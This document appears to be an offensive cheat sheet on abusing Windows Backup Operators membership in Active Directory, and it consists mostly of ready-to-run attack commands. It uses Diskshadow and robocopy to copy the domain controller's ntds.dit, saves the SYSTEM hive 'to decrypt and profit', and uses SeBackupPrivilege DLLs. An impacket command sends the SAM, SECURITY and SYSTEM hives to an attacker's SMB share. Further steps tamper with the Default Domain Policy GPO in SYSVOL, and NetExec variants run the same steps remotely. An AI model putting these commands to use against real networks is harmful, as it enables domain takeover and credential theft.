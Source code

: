 # Backup Operators

Can generally log in on any machines of the domain.

## 1) File System backup

Can backup the entire file system of a machine (DC included) and have full read/write rights on the backup

### 1) To backup a folder:

    robocopy /B C:\Users\Administrator\Desktop\ C:\tmp\tmp.txt /E

### 2) To backup with Diskshadow + Robocopy:

1) Create a script.txt file to backup with Diskshadow

        set verbose onX
        set metadata C:\Windows\Temp\meta.cabX
        set context clientaccessibleX
        set context persistentX
        begin backupX
        add volume C: alias cdriveX
        createX
        expose %cdrive% E:X
        end backupX

2) Backup with 

        diskshadow /s script.txt

3) Retrieve the backup with robocopy and send the NTDS file in the current folder : 

        robocopy /b E:\Windows\ntds . ntds.dit

4) Then retrieve the SYSTEM registry hive to decrypt and profit 

        reg save hklm\system c:\temp\system

### 3) To backup with Diskshadow + DLLs:

1) Similar script for Diskshadow

2) With these DLLs https://github.com/giuliano108/SeBackupPrivilege

        Import-Module .\SeBackupPrivilegeCmdLets.dll
        Import-Module .\SeBackupPrivilegeUtils.dll

        Copy-FileSeBackupPrivilege z:\windows\ntds\ntds.dit C:\temp\ntds.dit -Overwrite
        reg save HKLM\SYSTEM c:\temp\system.hive

## 2) Registry read rights

The Backup Operators can read all the machines registry

    python3 reg.py 'domain.local'/'user1':'Password123'@<target>.domain.local query -keyName 'HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon'

##### Backup the SAM, SECURITY and SYSTEM registry keys

    reg.py -dc-ip <DC_IP> 'domain.local'/'user1':'Password123'@server.domain.local backup -o \\<attacker_IP>\share

## 3) GPOs read/write rights

Normally the Backup Operators can read and rights all the domain and DC GPOs with robocopy in backup mode

1) Found the interesting GPO with Get-NetGPO . For example Default Domain Policy in the Domain Controller policy

2) Get the file at the path 

        \\dc.domain.local\SYSVOL\domain.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf 
    
and add whatever you want in it

3) Write the file with robocopy:

        robocopy "C:\tmp" "\\dc.domain.local\SYSVOL\domain.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT\SecEdit" GptTmpl.inf /ZB
   

## Alternate Method: Netexec

### 1) Backup a folder content

    nxc smb <target> -u user1 -p password -X "robocopy /B C:\Users\Administrator\Desktop\ C:\tmp\tmp.txt /E"

### 2) Backup with diskshadow + robocopy

Create the script.txt, then backup with diskshadow with Netexec

    nxc smb <target> -u user1 -p password -X "diskshadow /s script.txt"

Retrieve the backup with robovopy and send the NTDS file in the current folder

    nxc smb <target> -u user1 -p password -X "robocopy /B E:\Windows\ntds . ntds.dit"

Then retrieve the SYSTEM registry hive to decrypt and profit

    reg save hklm\system c:\temp\system

### 3) GPOs read/write rights

Normally the Backup Operators can read and rights all the domain and DC GPOs with robocopy in backup mode

Found the interesting GPO with Get-NetGPO . For example Default Domain Policy in the Domain Controller policy

Get the file at the path \\dc.domain.local\SYSVOL\domain.local\Policies\{GPO_ID}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf and add whatever you want in it

Write the file with robocopy:

    nxc smb <target> -u user1 -p password -X 'robocopy "C:\tmp" "\\dc.domain.local\SYSVOL\domain.local\Policies\{GPO_ID}\MACHINE\Microsoft\Windows NT\SecEdit" GptTmpl.inf /ZB'
